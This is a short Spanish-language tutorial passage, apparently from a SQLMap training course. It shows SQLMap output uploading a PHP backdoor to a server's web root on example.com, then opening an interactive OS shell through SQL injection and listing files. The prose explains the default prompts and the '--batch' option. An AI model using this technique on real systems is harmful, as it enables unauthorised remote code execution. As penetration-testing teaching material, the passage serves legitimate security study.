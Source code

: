 ```r
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

Como podemos ver, esta vez SQLMap nos dejó caer en una shell interactiva remota fácil, dándonos ejecución de código remoto a través de esta SQLi.

Nota: SQLMap primero nos preguntó por el tipo de lenguaje utilizado en este servidor remoto, que sabemos que es PHP. Luego nos preguntó por el directorio raíz web del servidor, y le pedimos a SQLMap que lo encontrara automáticamente usando 'common location(s)'. Ambas opciones son las opciones predeterminadas, y se habrían elegido automáticamente si agregáramos la opción '--batch' a SQLMap.

Con esto, hemos cubierto toda la funcionalidad principal de SQLMap.